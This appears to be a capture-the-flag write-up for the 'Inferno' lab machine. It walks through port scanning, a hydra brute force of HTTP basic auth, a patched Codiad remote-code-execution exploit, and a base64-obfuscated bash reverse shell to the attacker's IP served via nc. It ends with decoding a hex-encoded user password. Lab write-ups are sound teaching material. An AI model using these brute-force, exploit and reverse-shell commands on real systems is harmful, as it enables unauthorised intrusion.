## TL;DR

In this challenge we brute force the passwords for the simple http auth in `/inferno`.
Then, we exploit `RCE` in the `Codiad` web IDE and getting shell as `www-data`. Notice that we uses `/bin/sh` and not `/bin/bash`, because there is some root script that kills all `bash` instances.

Next, find credentials for user `dante` inside `/home/dante/Downloads/.download.dat`, encoded in hex format, and login to `dante`.

We exploit to root using `sudo` permission on `/usr/bin/tee`, and adding our new user line into `/etc/passwd`, to get another root user.

### Recon

we start with `nmap`, using this command:
```bash
nmap inferno.thm --top-ports 10 -sVC
```

I've done that because it too much time to scan all ports, so I decided to check only the ten most popular ports.



As we can see, port `22` is open with ssh, and port `80` with apache http server.
The title is `Dante's Inferno`.

```bash
PORT     STATE  SERVICE       VERSION
21/tcp   open   ftp?
22/tcp   open   ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 15:22:c1:42:c6:d9:e9:50:9a:e6:c5:68:7d:0b:e2:a0 (RSA)
|   256 1e:6d:d4:8f:77:78:3c:f0:43:60:9a:bd:1e:c8:62:68 (ECDSA)
|_  256 e5:34:c6:42:f5:85:9b:1a:25:bf:0b:77:dc:f2:90:b5 (ED25519)
23/tcp   open   telnet?
25/tcp   open   smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open   http          Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dante's Inferno
110/tcp  open   pop3?
139/tcp  closed netbios-ssn
443/tcp  open   https?
445/tcp  closed microsoft-ds
3389/tcp closed ms-wbt-server
```

Let's add `inferno.thm` to our `/etc/hosts`.

### Brute force password for basic http login at /inferno

This is the root page. We can't find any subdomain, however, we do find interesting endpoint.



When we use `ffuf` to enumerate the machine, we can find the endpoint `/inferno` which gives us `401`, Unauthorized.

```bash
┌──(agonen㉿kali)-[~/Inferno]                                                                                                            19:11:49 [1020/1172]
└─$ ffuf -u "http://inferno.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt                               
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                      
                                                                                                                                                             
       v2.1.0-dev                                                                                                                                            
________________________________________________                                                                                                             
                                                                                                                                                             
 :: Method           : GET                                                                                                                                   
 :: URL              : http://inferno.thm/FUZZ                                                                                                               
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt                                           
 :: Follow redirects : false                                                                                                                                 
 :: Calibration      : false                                                                                                                                 
 :: Timeout          : 10                                                                                                                                    
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

inferno                 [Status: 401, Size: 458, Words: 42, Lines: 15, Duration: 94ms]
                        [Status: 200, Size: 638, Words: 63, Lines: 37, Duration: 97ms]
```



When we go to this point, we can see it requires password.



Now, we can build list of possible usernames, and then brute force the password, because this is basic auth.

```bash
admin
inferno
dante
test
user
root
```

using `hydra` we managed to find set of credentials working. 

```bash
┌──(agonen㉿kali)-[~/thm/Inferno]
└─$ hydra -I -L users.txt -P /usr/share/wordlists/rockyou.txt "http-get://inferno.thm/inferno"     
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-18 23:00:59
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 86066394 login tries (l:6/p:14344399), ~5379150 tries per task
[DATA] attacking http-get://inferno.thm:80/inferno
[STATUS] 2683.00 tries/min, 2683 tries in 00:01h, 86063711 to do in 534:38h, 16 active
[STATUS] 2767.67 tries/min, 8303 tries in 00:03h, 86058091 to do in 518:15h, 16 active
[80][http-get] host: inferno.thm   login: admin   password: dante1
```



Now, we can login with these set of credentials:
```bash
admin:dante1
```

### Exploit RCE in Codiad to get shell as www-data

After login, we can detect another login portal, when we put the same credentials.



Now, we can see there is `Codiad` platfrom here.

> Codiad is an open-source, web-based Integrated Development Environment (IDE) framework. It is designed to be a lightweight and fast alternative to large desktop IDEs, offering a simple and interactive development experience through a web browser. It includes features like a syntax-highlighting code editor, a file manager, a plugin library, error checking, and support for multiple languages and users. 

I tried to modify manually the `.php` files, however, I don't have permissions to do this.



So, I used [https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) to achieve `RCE`.

After downloading, I tried to execute to get the exploit running:
```bash
python2 exploit.py http://inferno.thm/inferno/ admin dante1 10.9.2.147 1337 linux
```

As you can see, we got `401` error code. That is happening because we had 2 login portals, one of the basic http auth, and the other of `Codiad`.



We need to modify the code, and insert this line:
```py
session.auth = (username, password)
```

Into the source code, inside the `login` function:



Now, we can try this again:



It's working, however, we want to get the reverse shell. We can do it by pushing the payload from `penelope` for reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

Into the port `1337`, when it get opened.
```bash
echo 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' | nc -lnvp 1337
```



And inside `penelope` we get the reverse shell. Don't forget to execute `maintain 2`, that you won't lose the reverse shell.



### Find credentials for dante user inside /home/dante/Downloads/.download.dat in hex format

For some reason, this session keeps disconnect, 

I found the script `machine_services1320.sh`, which is owned by `root`.

It looks like it keeps killing all `bash` instances, and also has all the `nc -nvlp` on all ports, maybe for blocking the `nmap` scan.



So, I out smarted him, and used `/bin/sh`, now I'm not getting disconnected :)

Okay, now we can look around. We can see inside `/home` folder, the folder of user `dante`, which is Windows type.



Next, inside `Downloads`, we can find the file `.download.dat`



When reading it, we get text:
```bash
$ cat /home/dante/Downloads/.download.dat
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 6c 31 30 68 33 6c 70 6d 33 0a
```

It looks like this is some long hex string, I can understand this because of the `0a` at the end, which is newline.

We can use [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=YzIgYWIgNGYgNzIgMjAgNzMgNjUgZTIgODAgOTkgMjAgNzQgNzUgMjAgNzEgNzUgNjUgNmMgMjAgNTYgNjkgNzIgNjcgNjkgNmMgNjkgNmYgMjAgNjUgMjAgNzEgNzUgNjUgNmMgNmMgNjEgMjAgNjYgNmYgNmUgNzQgNjUgMGEgNjMgNjggNjUgMjAgNzMgNzAgNjEgNmUgNjQgNjkgMjAgNjQgNjkgMjAgNzAgNjEgNzIgNmMgNjEgNzIgMjAgNzMgYzMgYWMgMjAgNmMgNjEgNzIgNjcgNmYgMjAgNjYgNjkgNzUgNmQgNjUgM2YgYzIgYmIgMmMgMGEgNzIgNjkgNzMgNzAgNzUgNmYgNzMgZTIgODAgOTkgNjkgNmYgMjAgNmMgNzUgNjkgMjAgNjMgNmYgNmUgMjAgNzYgNjUgNzIgNjcgNmYgNjcgNmUgNmYgNzMgNjEgMjAgNjYgNzIgNmYgNmUgNzQgNjUgMmUgMGEgMGEgYzIgYWIgNGYgMjAgNjQgNjUgMjAgNmMgNjkgMjAgNjEgNmMgNzQgNzIgNjkgMjAgNzAgNmYgNjUgNzQgNjkgMjAgNmYgNmUgNmYgNzIgNjUgMjAgNjUgMjAgNmMgNzUgNmQgNjUgMmMgMGEgNzYgNjEgNjcgNmMgNjkgNjEgNmQgNjkgMjAgZTIgODAgOTkgNmMgMjAgNmMgNzUgNmUgNjcgNmYgMjAgNzMgNzQgNzUgNjQgNjkgNmYgMjAgNjUgMjAgZTIgODAgOTkgNmMgMjAgNjcgNzIgNjEgNmUgNjQgNjUgMjAgNjEgNmQgNmYgNzIgNjUgMGEgNjMgNjggNjUgMjAgNmQgZTIgODAgOTkgNjggNjEgMjAgNjYgNjEgNzQgNzQgNmYgMjAgNjMgNjUgNzIgNjMgNjEgNzIgMjAgNmMgNmYgMjAgNzQgNzUgNmYgMjAgNzYgNmYgNmMgNzUgNmQgNjUgMmUgMGEgMGEgNTQgNzUgMjAgNzMgNjUgZTIgODAgOTkgMjAgNmMgNmYgMjAgNmQgNjkgNmYgMjAgNmQgNjEgNjUgNzMgNzQgNzIgNmYgMjAgNjUgMjAgZTIgODAgOTkgNmMgMjAgNmQgNjkgNmYgMjAgNjEgNzUgNzQgNmYgNzIgNjUgMmMgMGEgNzQgNzUgMjAgNzMgNjUgZTIgODAgOTkgMjAgNzMgNmYgNmMgNmYgMjAgNjMgNmYgNmMgNzUgNjkgMjAgNjQgNjEgMjAgNjMgNzUgZTIgODAgOTkgMjAgNjkgNmYgMjAgNzQgNmYgNmMgNzMgNjkgMGEgNmMgNmYgMjAgNjIgNjUgNmMgNmMgNmYgMjAgNzMgNzQgNjkgNmMgNmYgMjAgNjMgNjggNjUgMjAgNmQgZTIgODAgOTkgNjggNjEgMjAgNjYgNjEgNzQgNzQgNmYgMjAgNmYgNmUgNmYgNzIgNjUgMmUgMGEgMGEgNTYgNjUgNjQgNjkgMjAgNmMgNjEgMjAgNjIgNjUgNzMgNzQgNjkgNjEgMjAgNzAgNjUgNzIgMjAgNjMgNzUgZTIgODAgOTkgMjAgNjkgNmYgMjAgNmQgNjkgMjAgNzYgNmYgNmMgNzMgNjkgM2IgMGEgNjEgNjkgNzUgNzQgNjEgNmQgNjkgMjAgNjQgNjEgMjAgNmMgNjUgNjkgMmMgMjAgNjYgNjEgNmQgNmYgNzMgNmYgMjAgNzMgNjEgNjcgNjcgNjkgNmYgMmMgMGEgNjMgNjggZTIgODAgOTkgNjUgNmMgNmMgNjEgMjAgNmQgNjkgMjAgNjYgNjEgMjAgNzQgNzIgNjUgNmQgNjEgNzIgMjAgNmMgNjUgMjAgNzYgNjUgNmUgNjUgMjAgNjUgMjAgNjkgMjAgNzAgNmYgNmMgNzMgNjkgYzIgYmIgMmUgMGEgMGEgNjQgNjEgNmUgNzQgNjUgM2EgNTYgMzEgNzIgNjcgMzEgNmMgMzEgMzAgNjggMzMgNmMgNzAgNmQgMzMgMGE) to unhex this.

